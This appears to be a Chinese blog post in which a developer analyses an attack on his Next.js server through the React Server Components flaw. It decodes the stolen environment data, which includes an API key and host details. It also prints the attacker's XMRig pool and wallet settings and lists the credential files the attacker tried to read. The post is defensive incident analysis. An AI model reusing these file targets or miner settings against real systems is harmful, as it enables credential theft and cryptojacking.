

这一次依然是针对 Linux 服务器的攻击脚本, 很多命名执行失败.



想添加一个定时任务, 但是 macOS 没有 crontab 🙉.



还在尝试修改脚本继续攻击.

---

#### **12月09日 05:48** - **最后一轮攻击**



这次攻击就是前面 `mini-m2_20251206_043719.txt` 的内容, 窃取的大量环境变量数据

##### Base64 数据解码分析

###### 1. 简单测试（1034行）

**Base64**: `MTExMTEK`

**解码后**:
```
11111
```

**分析**: 这是一个简单的测试命令，攻击者可能执行了 `echo "11111"` 来验证漏洞是否可用。

---

###### 2. 环境变量窃取（1036行）

**Base64**: `TlZNX0lOQz0vVXNlcnMvZG9uZzRqLy5udm0vdmVyc2lvbnMvbm9kZS92MjUuMC4wL2luY2x1ZGUvbm9kZQpURVJNX1BST0dSQU09dnNjb2Rl...`（很长）

**解码后**（部分内容）:
```bash
NVM_INC=/Users/dong4j/.nvm/versions/node/v25.0.0/include/node
TERM_PROGRAM=vscode
vision_running=false
exec_mode=fork_mode
version=N/A
NODE=/Users/dong4j/.nvm/versions/node/v25.0.0/bin/node
...
```

**分析**: 
- 攻击者成功窃取了**所有环境变量**
- 包含敏感信息：
  - `OPENAI_API_KEY=sk-52XRaPsasSIzE8Jv44D4C485C55545C59cF430C9F323Ca4c` ⚠️ **API 密钥泄露**
  - `OPENAI_API_BASE=https://oneapi.dong4j.ink:1024/v1` ⚠️ **API 端点泄露**
  - `PORT=6661` - 应用端口
  - `CWD=/Users/dong4j/Developer/Blog/npx-card-landing` - 工作目录
  - 系统路径、用户信息、开发工具配置等

**攻击命令**: 可能是 `env` 或 `printenv`

> 这里的 `OPENAI_API_KEY` 是内网部署的 one-api 使用的, 且 one-api 早就下线了, 所以暴露的也没任何影响.

---

###### 3. 文件列表窃取（1039行）

**Base64**: `dG90YWwgNDc5NjgKZHJ3eHIteHIteEAgIDE4IGRvbmc0aiAgc3RhZmYgICAgICA1NzYgMTIgIDcgMjM6NDYgLgpkcnd4ci14ci14ICAgMTgg...`

**解码后**（部分内容）:
```bash
total 47968
drwxr-xr-x@  18 dong4j  staff      576 12  7 23:46 .
drwxr-xr-x   18 dong4j  staff      576 12  8 10:54 ..
-rw-r--r--@   1 dong4j  staff     6148 11  3 01:21 .DS_Store
-rw-r--r--@   1 dong4j  staff      204 10 18 19:33 .env
drwxr-xr-x@  23 dong4j  staff      736 10 18 15:53 .next
-rw-r--r--@   1 dong4j  staff  9560248 12  6 21:49 am64
-rw-r--r--@   1 dong4j  staff  9052344 12  6 21:48 e386
-rw-r--r--@   1 dong4j  staff      977 10 18 15:46 ecosystem.config.js
-rw-r--r--@   1 dong4j  staff  3522081 12  7 23:46 kal.tar.gz
drwxr-xr-x@   4 dong4j  staff      128 10 18 15:46 logs
-rw-r--r--@   1 dong4j  staff   131093 12  6 05:30 mini-m2_20251206_043719.txt
drwxr-xr-x  327 dong4j  staff    10464 11  3 01:04 node_modules
-rw-r--r--@   1 dong4j  staff   207275 10 18 19:32 package-lock.json
-rw-r--r--@   1 dong4j  staff      804 10 18 15:46 package.json
-rw-r--r--@   1 dong4j  staff       62 10 18 19:32 README.md
-rw-r--r--@   1 dong4j  staff     1615 12  5 11:27 sex.sh
-rw-r--r--@   1 dong4j  staff     5012 12  6 05:59 sex.sh.1
drwxr-xr-x@   5 dong4j  staff      160  6 23 08:46 xmrig-6.24.0
```

**分析**: 
- 攻击者执行了 `ls -la` 命令
- 获取了项目目录的**完整文件列表**
- 包括敏感文件：
  - `.env` - 环境变量文件
  - `sex.sh`、`sex.sh.1` - 攻击者留下的挖矿脚本
  - `xmrig-6.24.0/` - 挖矿程序目录
  - `logs/` - 日志目录

---

###### 4. 目录结构窃取（1042行）

**Base64**: `LgouLgouRFNfU3RvcmUKLmVudgoubmV4dAphbTY0CmUzODYKZWNvc3lzdGVtLmNvbmZpZy5qcwprYWwudGFyLmd6CmxvZ3MKbWluaS1tMl8yMD...`

**解码后**:
```bash
.
..
.DS_Store
.env
.next
am64
e386
ecosystem.config.js
kal.tar.gz
logs
mini-m2_20251206_043719.txt
node_modules
package-lock.json
package.json
README.md
sex.sh
sex.sh.1
xmrig-6.24.0
```

**分析**: 
- 攻击者执行了 `ls` 命令（不带 `-la`）
- 获取了**简化的文件列表**
- 确认了项目结构

**攻击命令**: `ls`

---

###### 5. 敏感配置信息窃取（1045行）

**Base64**: `Q1dEPS9Vc2Vycy9kb25nNGovRGV2ZWxvcGVyL0Jsb2cvbnB4LWNhcmQtbGFuZGluZwpQT1JUPTY2NjEKCk9QRU5BSV9BUElfS0VZPyWFJhUHNhc1NJekU4SnY0N...`

**解码后**:
```bash
CWD=/Users/dong4j/Developer/Blog/npx-card-landing
PORT=6661

OPENAI_API_KEY=sk-52XRaPsasSIzE8Jv44D4C485C55545C59cF430C9F323Ca4c
OPENAI_API_BASE=https://oneapi.dong4j.ink:1024/v1
OPENAI_MODEL=hybrid-model
```

**分析**: 
- 攻击者可能执行了 `env | grep -E "OPENAI|PORT|CWD"` 或类似命令
- **重点窃取敏感配置信息**：
  - ⚠️ **OpenAI API 密钥**完全泄露
  - ⚠️ **API 端点**泄露
  - 应用端口信息

**攻击命令**: 可能是 `env | grep OPENAI` 或直接读取 `.env` 文件

---

###### 6. 用户名窃取（1060行）

**Base64**: `ZG9uZzRq`（简单）

**解码后**:
```bash
dong4j
```

**分析**: 
- 攻击者执行了 `whoami` 或 `id -un` 命令
- 获取了**系统用户名**

---

###### 7. 大规模系统信息收集（1062行）

**Base64**: `eyJtZXRhIjp7InZlciI6InYzLjEiLCJlbnZfdHlwZSI6InBoeXNpY2FsX21heWJlIiwiaXNfY29udGFpbmVyIjpmYWxzZSwidHMiOiIyMDI1LTEy...`

**解码后**（JSON 格式）:
```json
{
  "meta": {
    "ver": "v3.1",
    "env_type": "physical_maybe",
    "is_container": false,
    "ts": "2025-12-09T08:21:12.011Z",
    "uid": 501,
    "user": "dong4j",
    "host": "mini-m2",
    "platform": "darwin 24.6.0"
  },
  "env": {
    // 所有环境变量（与上面相同）
  },
  "net": {
    "tcp": []
  },
  "proc": [],
  "fs_tree": [
    "./.DS_Store",
    "./.env",
    "./.next",
    "./README.md",
    "./am64",
    "./e386",
    "./ecosystem.config.js",
    "./kal.tar.gz",
    "./logs",
    "./logs/error.log",
    "./logs/out.log",
    "./mini-m2_20251206_043719.txt",
    "./node_modules",
    "./package-lock.json",
    "./package.json",
    "./sex.sh",
    "./sex.sh.1",
    "./xmrig-6.24.0",
    "./xmrig-6.24.0/SHA256SUMS",
    "./xmrig-6.24.0/config.json",
    "./xmrig-6.24.0/xmrig",
    "PARENT_PREVIEW: .DS_Store, audio-server, busuanzi, friend-circle, geoip2-server, github-calendar-api, hitokoto, img2color-go, next-mini-chat, nezha, npx-card-landing, npx-server, npx-server_backup_20251208..."
  ]
}
```

**分析**: 
- 这是一个**系统信息收集工具**的输出（可能是 `systeminfo` 或类似工具）
- 包含：
  - **元数据**：系统版本、用户、主机名、平台信息
  - **环境变量**：所有环境变量
  - **网络信息**：TCP 连接（空）
  - **进程信息**：运行中的进程（空）
  - **文件系统树**：完整的目录结构
- 这是一个**结构化的信息收集**，攻击者可能使用了专门的工具

**攻击命令**: 可能是执行了一个 Node.js 脚本，收集系统信息并输出为 JSON

---

##### 攻击模式总结

###### 攻击流程

1. **测试阶段**：执行简单命令验证漏洞
2. **环境变量窃取**：获取所有环境变量，寻找 API 密钥等敏感信息
3. **文件系统探索**：列出文件和目录，了解项目结构
4. **敏感信息提取**：重点提取 API 密钥、配置信息
5. **系统信息收集**：使用工具收集完整的系统信息

###### 泄露的敏感信息

1. ⚠️ **OpenAI API 密钥**：`sk-52XRaPsasSIzE8Jv44D4C485C55545C59cF430C9F323Ca4c`
2. ⚠️ **API 端点**：`https://oneapi.dong4j.ink:1024/v1` (已下线)
3. ⚠️ **应用端口**：`6661`
4. ⚠️ **工作目录路径**：`/Users/dong4j/Developer/Blog/npx-card-landing`
5. ⚠️ **系统用户名**：`dong4j`
6. ⚠️ **主机名**：`mini-m2`
7. ⚠️ **完整环境变量**：包含所有配置信息

###### 为什么使用 Base64 编码？

1. **绕过字符限制**：Next.js 的 `NEXT_REDIRECT` 错误机制可能对特殊字符有限制
2. **数据完整性**：Base64 编码可以确保二进制数据或特殊字符不会丢失
3. **隐蔽性**：虽然 base64 编码不是加密，但可以避免直接暴露敏感信息（如果日志被查看）

---

### 那个挖矿脚本：一个"专业"的恶意程序

我仔细分析了攻击者留下的 `sex.sh.1` 脚本。说实话，这个脚本写得很"专业"，它甚至还加上了注释. 如果这个脚本的作者把这份"专业"用在正道上，应该能成为一个不错的 DevOps 工程师。



它首先会检查是否有 root 权限，然后选择不同的安装路径：
- Root 用户：安装到 `/usr/share/updater`（伪装成系统更新服务）
- 普通用户：安装到当前目录

然后它会从 GitHub 下载 XMRig 挖矿程序（伪装成合法下载），解压并配置。如果检测到 root 权限，还会创建 systemd 服务，实现开机自启和自动恢复。

挖矿参数配置如下：
```bash
--url pool.supportxmr.com:8080 
--user 89Zr4vPaS8yTYRQE54tK1QGKRpsYZ6eJJYynfpfBf1zmLHECaskMPwd3wuTnQ4SYQ7QLkwVN8ur2QTQi9wkKMaCr2iXKa7j 
--pass sx 
--donate-level 0
```

这个钱包地址 `89Zr4vPaS8yTYRQE54tK1QGKRpsYZ6eJJYynfpfBf1zmLHECaskMPwd3wuTnQ4SYQ7QLkwVN8ur2QTQi9wkKMaCr2iXKa7j` 就是攻击者用来接收挖矿收益的地址。



到目前为止, 这个钱包还有一个 Worker, 也就意味着至少还有一台被用来恶意挖矿.

---

我查了一下，`pool.supportxmr.com` 是一个知名的门罗币矿池。根据网上的资料，这个矿池支持多个端口：
- `pool.supportxmr.com:3333` - 最大难度 3K
- `pool.supportxmr.com:5555` - 最大难度 1.5W
- `pool.supportxmr.com:7777` - 最大难度 2.5W
- `pool.supportxmr.com:8080` - 攻击者使用的端口

矿池总税为 0.6%，最低 0.3 XMR 提现。攻击者使用 8080 端口，可能是为了绕过某些防火墙限制（80 和 443 端口通常不会被阻止）。

**为什么在我的服务器上失败了？**

因为我的服务器是 macOS ARM64 架构，而脚本下载的是 Linux x64 版本。而且 macOS 没有 systemd，脚本的持久化机制也失效了。

但这并不意味着 macOS 就安全了。如果攻击者针对 macOS 定制脚本，或者我的服务器是 Intel 架构的 macOS，攻击仍然可能成功。

### 信息窃取：那些让我后怕的尝试

12 月 8 日凌晨 4 点，攻击者进行了大规模的信息窃取尝试。从日志中可以看到，攻击者尝试读取了：

**系统配置文件：**
- `/etc/passwd` - 成功读取（包含所有系统用户信息）
- `/etc/shadow` - 失败（macOS 不存在此文件）
- `/proc/self/environ` - 失败（macOS 不存在 `/proc` 文件系统）
- `/proc/self/cwd` - 失败（macOS 不存在 `/proc` 文件系统）

从日志中可以看到，攻击者成功读取了 `/etc` 目录的文件列表，包括：
- `passwd`、`hosts`、`ssh`、`group`、`services` 等系统配置文件
- `bashrc`、`zshrc` 等 shell 配置文件
- `sudoers`、`sudoers.d` 等权限配置文件

**用户敏感文件：**

- `/var/root/.ssh/id_rsa` - 失败（权限不足）
- `/var/root/.ssh/config` - 失败（权限不足）
- `/var/root/.aws/credentials` - 失败（权限不足）
- `/var/root/.aws/config` - 失败（权限不足）
- `/var/root/.kube/config` - 失败（权限不足）
- `/var/root/.docker/config` - 失败（权限不足）
- `/var/root/.config/gcloud/credentials.db` - 失败（权限不足）
- `/var/root/.gitconfig` - 失败（权限不足）
- `/var/root/.git-credentials` - 失败（权限不足）
- `/var/root/.npmrc` - 失败（权限不足）

**项目敏感文件：**

- `.env`、`.env.local`、`.env.production` 等环境变量文件
- `prisma/.env` - 数据库配置
- `serviceAccountKey.json` - 服务账户密钥

虽然很多文件读取失败了，但攻击者成功读取了 `/etc/passwd` 和以及所有的当前用户下的数据和部分环境变量（通过错误信息泄露）。这让我意识到，即使攻击没有完全成功，我的服务器也已经暴露了部分敏感信息。

从日志中还可以看到，攻击者甚至尝试读取了环境变量。通过构造特定的错误，攻击者成功获取了大量的环境变量信息，包括：
- Node.js 路径和版本信息
- 项目路径和工作目录
- 各种 API 密钥和配置信息
- 系统用户信息

这些信息虽然不能直接用来攻击，但可以帮助攻击者更好地了解服务器环境，为后续攻击做准备。

## XMRig：一个被恶意利用的合法工具

### 什么是 XMRig？

[XMRig](https://github.com/xmrig/xmrig) 本身是一个开源的 Monero (XMR) 加密货币挖矿程序，支持 CPU、GPU 和 ASIC 挖矿。它本身是合法的开源软件，在 GitHub 上有进万 star。

但就像很多合法工具一样，XMRig 经常被恶意软件和僵尸网络用于未经授权的加密货币挖矿。这种行为被称为"加密劫持"（cryptojacking）。

个人对挖矿这件事有点抵触, 一直没有去研究挖矿的相关技术, 也就错失了几百个亿 🙉. 

这次的漏洞也让我了解到了 [门罗币](https://www.cnblogs.com/mysgk/p/9471675.html), 如果感兴趣, 可以玩玩儿.



虽然问题出在 Next.js 以及那些滥用开源项目的人身上, 但是我还是想惩戒一下那些恶意挖矿的人, 不管貌似并没有什么用.

### 为什么选择 XMRig？

攻击者选择 XMRig 有几个原因：

1. **高性能**：XMRig 使用 RandomX 算法，这是 Monero 网络使用的工作量证明算法。RandomX 专门设计为 CPU 友好，使得普通服务器也能参与挖矿。根据网上的资料，XMRig 支持多线程挖矿，可以充分利用 CPU 多核优势，提高挖矿效率。

2. **易于部署**：XMRig 提供了预编译的二进制文件，可以直接下载运行。攻击者只需要下载、解压、配置参数，就可以开始挖矿。从我的日志中可以看到，攻击者甚至直接从 GitHub 下载，伪装成合法下载。

3. **隐蔽性强**：XMRig 可以配置为后台运行，降低对系统性能的影响，避免被发现。攻击者还会给它起一个看似合法的名字，比如 `system-update-service`。从 FreeBuf 的文章中我了解到，JavaXminer 等挖矿木马家族还会清理其他挖矿程序，独占系统资源。

4. **跨平台**：支持 Windows、Linux、macOS 等多种操作系统，攻击者可以用同一套脚本攻击不同系统。虽然我的服务器是 macOS，攻击失败了，但如果攻击者针对 macOS 定制脚本，仍然可能成功。

### 攻击脚本的"专业"之处

我仔细分析了攻击者留下的脚本，发现它写得很"专业"：

1. **智能安装路径选择**：根据是否有 root 权限选择不同的安装路径，最大化隐蔽性。如果是 root 用户，安装到 `/usr/share/updater`，伪装成系统更新服务。

2. **持久化机制**：如果检测到 root 权限，会创建 systemd 服务，实现开机自启和自动恢复。即使服务器重启，挖矿程序也会自动启动。从 CSDN 的应急响应文章中我了解到，很多挖矿木马还会通过 crontab 创建计划任务，每 5 分钟访问 pastebin 获取新的指令。

3. **更新机制**：脚本还支持更新已安装的挖矿程序。如果检测到已有安装，会停止现有服务、更新配置、重启服务。这种"自我维护"的能力，让挖矿程序更难被清除。

4. **错误处理**：脚本包含了完善的错误处理逻辑，即使某些步骤失败，也会尝试其他方法。比如，如果 systemd 设置失败，会使用 nohup 在后台运行。

5. **配置保存**：脚本会保存配置到 `miner.conf` 文件，方便后续更新和维护。

说实话，如果这个脚本的作者把这份"专业"用在正道上，应该能成为一个不错的 DevOps 工程师。

### 挖矿木马的常见特征

通过查阅资料和对比其他案例，我发现挖矿木马有一些共同特征：

1. **CPU 使用率异常**：这是最明显的特征。从 CSDN 的应急响应案例中可以看到，受害服务器的 CPU 进程拉满到 200%。如果发现服务器 CPU 持续高占用，需要立即排查。

2. **进程伪装**：挖矿程序通常会被伪装成系统服务，比如 `system-update-service`、`kthread`、`kworker` 等。从我的日志中可以看到，攻击者使用的就是 `system-update-service`。

3. **网络连接**：挖矿程序需要连接到矿池服务器。常见的矿池包括：
   - `pool.supportxmr.com` - 攻击者使用的矿池
   - `xmr.nanopool.org` - 另一个知名矿池
   - `pool.minexmr.com` - 支持多个地区服务器

4. **持久化机制**：
   - Linux：通过 systemd 服务或 crontab 计划任务
   - Windows：通过 WMI Subscription 或 schtasks 命令
   - Docker：通过恶意容器（如 `pmietlicki/monero-miner`）

### 为什么在我的服务器上失败了？

从日志中可以看到，攻击者的脚本在我的 macOS 服务器上基本都失败了：

1. **架构不匹配**：脚本下载的是 Linux x64 版本，无法在 macOS ARM64 上运行。日志显示 `cannot execute binary file`。

2. **系统差异**：macOS 没有 systemd，脚本的持久化机制失效。日志显示 `systemctl: command not found`。

3. **权限保护**：macOS 的文件系统权限保护阻止了对 root 用户文件的访问。日志显示大量 `EACCES: permission denied` 错误。

但这并不意味着 macOS 就安全了。如果攻击者针对 macOS 定制脚本，或者我的服务器是 Intel 架构的 macOS，攻击仍然可能成功。

---

## 我的应对：从发现到处置

### 第一步：立即隔离

发现攻击后，我做的第一件事是立即停止 Next.js 应用，防止攻击者继续利用漏洞。然后我检查了系统进程，看是否有可疑的挖矿程序在运行。

参考 CSDN 应急响应文章中的排查方法，我使用了以下命令：
```bash
# 检查 CPU 使用率
htop

# 查找 xmrig 进程
ps aux | grep xmrig

# 检查网络连接
netstat -an | grep ESTABLISHED
lsof -i -P | grep LISTEN
```

幸运的是，由于架构不匹配，攻击者的挖矿程序没有成功运行。但我还是仔细检查了一遍，确保没有遗漏。

### 第二步：证据收集

我从日志文件中收集了所有攻击证据：
- `error.log` - 记录了所有攻击尝试和执行的命令
- `sex.sh.1` - 攻击者下载的挖矿脚本
- `xmrig-6.24.0/` - 攻击者下载的挖矿程序（虽然未成功执行）

这些证据不仅帮助我了解攻击者的攻击手法，也让我能够评估攻击影响，防止未来类似攻击。如果涉及法律问题，这些证据也可以作为证据使用

### 第三步：漏洞修复

我立即更新了所有相关依赖。根据 Next.js 官方公告，我使用了官方提供的修复工具：

```bash
# 使用官方修复工具
npx fix-react2shell-next

# 或者手动更新
npm update next
npm update react react-dom

# 验证版本
npm list next react react-dom
```

**重要提醒**：由于 Next.js 内置了 React，即使你已经更新了独立的 React 依赖，也必须确保 Next.js 本身也更新到了包含修复的版本。

根据官方公告，修复版本包括：
- Next.js 15.x：15.0.5, 15.1.9, 15.2.6, 15.3.6, 15.4.8, 15.5.7
- Next.js 16.x：16.0.7
- Canary 版本：15.6.0-canary.58, 16.1.0-canary.12

**无绕过方案**：官方明确表示，必须升级到修复版本，没有其他绕过方案。

### 第四步：凭证轮换

这是最让我头疼的部分。虽然攻击者没有成功读取所有敏感文件，但根据官方建议，如果应用在 12 月 4 日下午 1:00 PT 之前在线且未打补丁，强烈建议轮换所有密钥。

我进行了全面的凭证轮换：

- **SSH 密钥**：重新生成所有 SSH 密钥对，更新到所有服务器。因为家中的设备较多, 这个过程花了我一整个下午。

- **API Keys**：轮换所有第三方服务的 API 密钥，在日志中有 `.zshrc` 的读取, 但是我的密钥全部独立放在另一个文件中,但是为了保险起见还是全部更换

  这里额外提一个小技巧, 因为重度使用 `.zshrc`, 时间久了文件就会很大, 导致 zsh 加载缓慢, 所以使用下面的脚本来从其他文件异步加载配置:
  ```bash
  ########################### 加载 .zsh 目录中的配置文件(start) ############################
  # 自动加载 ~/.zsh 目录内的 *.zsh 文件（按文件名排序）
  ZSH_CONFIG_DIR="$HOME/.zsh"
  
  if [ -d "$ZSH_CONFIG_DIR" ]; then
    for file in $(ls "$ZSH_CONFIG_DIR"/*.zsh 2>/dev/null | sort); do
      if [ -r "$file" ]; then
        source "$file"
      fi
    done
  fi
  
  ########################### 加载 .zsh 目录中的配置文件 (end) ############################
  ```

- **Git 凭证**：更新 Git 平台的访问令牌。

- **环境变量**：检查并更新所有 `.env` 文件中的敏感信息。

这个过程很繁琐，但必须做。因为即使攻击者没有成功读取文件，也可能通过其他方式获取了信息。从日志中可以看到，攻击者成功读取了部分环境变量，这些信息可能已经泄露。

### 第五步：安全加固

说实话，由于时间有限，我并没有做一套完整的安全加固方案。但至少做了两件最关键的事：

**1. 关闭不必要的端口暴露**

检查了所有运行中的服务，关闭了那些不需要对外暴露的端口。这是最直接有效的防护措施——如果服务不暴露在公网上，攻击者就无法直接访问。

**2. 漏洞修复和依赖升级**

我花时间把最近一段时间公布的安全漏洞都过了一遍，特别是那些影响我使用的技术栈的漏洞。然后逐个检查项目依赖，把有漏洞的版本都升级到修复版本。

这个过程其实挺耗时的，因为：
- 需要查看每个依赖的 changelog 和安全公告
- 有些依赖升级可能会引入 breaking changes，需要测试
- 有些漏洞可能影响多个依赖，需要协调升级顺序

但这是必须做的。这次攻击让我意识到，依赖管理不是"能用就行"，而是需要持续关注安全更新。

**关于更完善的安全措施**

理想情况下，我应该：
- 建立完善的监控和告警机制
- 实施更严格的输入验证
- 配置防火墙规则
- 部署入侵检测系统

但现实是，作为一个开发者，时间和精力都有限。我只能优先处理最紧急、最有效的事情。至少现在，我的服务已经更新到了安全版本，不必要的端口也已经关闭了。

## 我的反思：从这次攻击中学到了什么

### 及时关注安全公告

这次攻击发生在漏洞公布后的第二天（12 月 5 日），说明攻击者反应非常迅速。根据 FreeBuf 的文章，JavaXminer 等挖矿木马家族通常会利用新近曝出的 Web 服务端 1Day 或 nDay 漏洞，在漏洞公布后几天内就开始大规模攻击。

作为开发者，我们需要：
- 订阅相关项目的安全公告邮件列表
- 关注 CVE 数据库
- 使用自动化工具监控依赖漏洞（如 Dependabot、Snyk）
- 建立安全公告的监控机制

现在的做法是，每天早上第一件事就是检查邮箱里的安全公告。虽然有点麻烦，但总比被攻击后再处理要好。

### 不要相信前端传来的任何东西

这是后端开发的基本原则，但 React Server Components 的设计违背了这一原则。作为开发者，我们需要：
- 对所有用户输入进行验证
- 使用 Schema 验证（如 Zod、Yup）
- 实施最小权限原则
- 避免直接执行用户提供的代码

